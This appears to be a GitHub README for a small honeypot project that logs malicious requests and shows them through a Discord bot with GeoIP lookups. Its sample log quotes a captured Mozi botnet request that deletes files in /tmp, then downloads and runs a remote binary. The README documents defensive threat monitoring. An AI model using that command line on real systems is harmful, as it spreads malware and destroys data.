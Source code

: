 # Home Alone 
A simple and open source honeypot system for detecting and tracking live threats on the internet. 

	- Logging the requests being made, the addresses and the time.
	- Discord bot to interact with the honeypot and see whats happening in real time.
More features to come.

## Logging 
Requests to the server are logged by date/time (files created each time you start honeypot).
Here's an example of some of the malicious traffic I've seen: 

```
====================================================================
Connection at 4/19/2021 - 0:41:23 :
{"5.178.86.76" : "b'POST http://check.best-proxies.ru/azenv.php?s=VJVJVDNRIJOOVEVCPRNRPJUONNURYR HTTP/1.1\r\nHost: check.best-proxies.ru\r\nCookie: testCookie=true\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0\r\nReferer: https://best-proxies.ru/\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\nConnection: close\r\n\r\ntestPost=true\r\n\r\n'"
================================================================================
Connection at 4/19/2021 - 16:10:54 :
{"<redacted>" : "b'GET /shell?cd+/tmp;rm+-rf+*;wget+http://<redacte>:35094/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1\r\nUser-Agent: Hello, world\r\nHost: <removed>\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nConnection: keep-alive\r\n\r\n'"
================================================================================
```

## Discord Bot 
Using the discord bot you can retrieve and view these logs in real time as well as do GeoIP lookups:
```
"{\n  \"ip\": \"211.40.129.246\",\n  \"city\": \"Seonghwan\",\n  \"region\": \"Chungcheongnam-do\",\n  \"country\": \"KR\",\n  \"loc\": \"36.9156,127.1314\",\n  \"org\": \"AS3786 LG DACOM Corporation\",\n  \"postal\": \"31014\",\n  \"timezone\": \"Asia/Seoul\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"

"{\n  \"ip\": \"46.43.113.22\",\n  \"hostname\": \"adsl-46.43.113.22.mada.ps\",\n  \"city\": \"Ramallah\",\n  \"region\": \"West Bank\",\n  \"country\": \"PS\",\n  \"loc\": \"31.8996,35.2042\",\n  \"org\": \"AS51407 Mada ALArab LTD\",\n  \"timezone\": \"Asia/Hebron\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"
```

**working on a feature for automated reporting to AbuseIPDB.com **